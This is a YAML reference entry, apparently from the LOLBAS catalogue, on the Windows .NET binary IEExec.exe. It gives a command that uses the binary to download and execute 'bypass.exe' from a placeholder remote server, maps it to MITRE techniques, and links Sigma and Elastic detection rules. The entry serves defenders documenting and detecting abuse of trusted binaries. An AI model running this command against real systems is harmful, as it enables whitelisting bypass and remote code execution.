 ```yaml
---
Name: Ieexec.exe
Description: The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_ieexec_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - IOC: Network connections originating from ieexec.exe may be suspicious
Resources:
  - Link: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

